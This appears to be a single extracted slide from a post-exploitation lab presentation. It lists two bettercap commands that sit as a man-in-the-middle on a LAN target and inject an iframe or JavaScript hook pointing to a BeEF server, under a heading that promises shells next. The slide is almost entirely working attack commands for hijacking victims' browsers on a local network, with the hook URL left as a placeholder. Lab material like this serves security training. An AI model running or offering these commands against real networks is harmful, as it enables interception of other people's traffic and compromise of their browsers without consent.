

# Post Exploitation - LABS

Bettercap + Beef
 - bettercap -I eth0 -T 192.168.0.104 --proxy-module injecthtml --html-iframe-url “Insert BEEF html url here“
-./bettercap -X -T 192.168.x.x --proxy-module injectjs --js-url “enter hook url”
2. Bettercap + Beef + Shells